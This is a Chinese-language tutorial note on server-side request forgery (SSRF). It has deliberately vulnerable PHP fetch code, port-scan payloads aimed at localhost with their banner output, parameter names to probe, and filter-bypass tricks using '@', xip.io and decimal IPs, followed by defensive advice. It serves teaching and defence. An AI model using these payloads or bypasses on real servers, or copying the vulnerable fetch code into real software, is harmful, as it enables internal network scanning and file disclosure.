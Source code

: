 ```yaml
---
title: "ssrf"
date: 2016-01-25 16:23
---
```


# SSRF

## SSRF 概述

SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

* 攻击者利用ssrf可以实现的攻击主要有5种：

1.可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;

2.攻击运行在内网或本地的应用程序（比如溢出）;

3.对内网web应用进行指纹识别，通过访问默认文件实现;

4.攻击内外网的web应用，主要是使用get参数就可以实现的攻击（比如struts2，sqli等）;

5.利用file协议读取本地文件等。

## SSRF 漏洞的寻找

* 1.web功能寻找

    + 分享：通过URL地址分享网页内容
    + 转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览
    + 线翻译：通过URL地址翻译对应文本的内容
    + 图片加载与下载：通过URL地址加载或下载图片
    + 图片、文章收藏功能
    + 未公开的api实现以及其他调用URL的功能

    详情参考：[SSRF漏洞的挖掘经验][1]

## 实例

* [SSRF攻击实例解析][2]


## common example

* get image and save

```
<?php
if (isset($_POST['url'])){
    $content = file_get_contents($_POST['url']);
    $filename = './images/'.rand().'img.jpg';
    file_put_contents($filename, $content);
    $img = "<img src=\"".$filename."\"/>";
}
echo $img;
```

* use curl

```
if (isset($_POST['link'])){                                                          
    $link = $_POST['link'];                                                          
    $filename = './images/'.rand().'.txt';                                                         
    $curlobj = curl_init($link);                                                                                                                
    $fp = fopen($filename, 'w');                                                     
    curl_setopt($curlobj, CURLOPT_FILE, $fp);   #output                                        
    curl_setopt($curlobj, CURLOPT_HEADER, 0);   #0:不显示响应头信息                                  
    curl_exec($curlobj);                                                             
    curl_close($curlobj);                                                            
    fclose($fp);                                                                     
    $fp = fopen($filename, 'r');                                                     
    $result = fread($fp, filesize($filename));                                       
    fclose($fp);                                                                     
    echo $result;                                                                    
} 
```

可以用来扫端口

* post: link=http:127.0.0.1:22/

output banner:

> SSH-2.0-OpenSSH_7.1p2 Debian-2 Protocol mismatch. 

* post: link=http:127.0.0.1:25/

error port ,output warning

> Warning: fread(): Length parameter must be greater than 0 in /var/www/ssrf.php on line 22

** 危害 **

* 扫描主机，端口

* 访问本地文件，或外网不可达的地址，内网弱口令多

** search ssrf **

* url key

```
share
wap
url
link
src
source
target
u
3g
display
sourceURI
imageURL
domain
```

** bypass **

* @

> http://abc@127.0.0.1

* add port

> http://127.0.0.1:8000

* short url

> http://dwz.cn//11SMa 

* 可以指向任意ip的域名:xip.io

```
10.0.0.1.xip.io         10.0.0.1
www.10.0.0.1.xip.io     10.0.0.1
mysite.10.0.0.1.xip.io  10.0.0.1 
```

* ip 地址进制转换

```
115.239.210.26 = 16373751032    #IPy.IP('115.239.210.26').int()
```
** http://www.baidu.com@10.10.10.10 与 http://10.10.10.10 请求是相同的

** 防御 **

* 过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。

* 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。

* 限制请求的端口为http常用的端口，比如，80,443,8080,8090。

* 黑名单内网ip。避免应用被用来获取获取内网数据，攻击内网。

* 禁用不需要的协议。仅仅允许http和https请求。可以防止类似于file:///,gopher://,ftp:// 等引起的问题。

[1]: https://sobug.com/article/detail/11
[2]: http://www.freebuf.com/articles/web/20407.html

